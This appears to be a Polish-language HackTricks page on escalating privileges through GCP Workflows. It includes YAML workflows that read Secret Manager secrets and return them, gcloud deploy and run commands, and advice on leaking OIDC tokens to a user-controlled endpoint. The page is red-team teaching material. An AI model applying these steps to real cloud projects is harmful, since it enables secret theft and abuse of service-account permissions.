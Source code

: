 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Podstawowe informacje:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Z tego co wiem, nie jest możliwe uzyskanie powłoki z dostępem do punktu końcowego metadanych zawierającego dane uwierzytelniające SA przypisanego do Workflow. Jednak możliwe jest nadużycie uprawnień SA, dodając działania do wykonania wewnątrz Workflow.

Możliwe jest znalezienie dokumentacji konektorów. Na przykład, oto [**strona konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** W pasku bocznym można znaleźć kilka innych konektorów.

A tutaj można znaleźć przykład konektora, który drukuje sekret:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aktualizacja z CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Jeśli nie masz dostępu do sieci, możliwe jest wywołanie i zobaczenie wykonania Workflow za pomocą:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Możesz również sprawdzić wyniki wcześniejszych wykonania, aby poszukać wrażliwych informacji
{% endhint %}

Zauważ, że nawet jeśli otrzymasz błąd taki jak `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` ponieważ nie masz tej zgody, workflow został wygenerowany.

### Wyciekanie tokena OIDC (i OAuth?)

Zgodnie z [**dokumentacją**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) możliwe jest użycie kroków workflow, które wyślą żądanie HTTP z tokenem OAuth lub OIDC. Jednak, podobnie jak w przypadku [Cloud Scheduler](gcp-cloudscheduler-privesc.md), żądanie HTTP z tokenem Oauth musi być skierowane do hosta `.googleapis.com`.

{% hint style="danger" %}
Dlatego **możliwe jest wyciekanie tokena OIDC poprzez wskazanie punktu końcowego HTTP** kontrolowanego przez użytkownika, ale aby wyciec **token OAuth**, potrzebujesz **obejścia** tej ochrony. Jednak nadal możesz **kontaktować się z dowolnym API GCP, aby wykonywać działania w imieniu SA** za pomocą konektorów lub żądań HTTP z tokenem OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Dzięki temu uprawnieniu zamiast `workflows.workflows.create` możliwe jest zaktualizowanie już istniejącego workflow i przeprowadzenie tych samych ataków.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

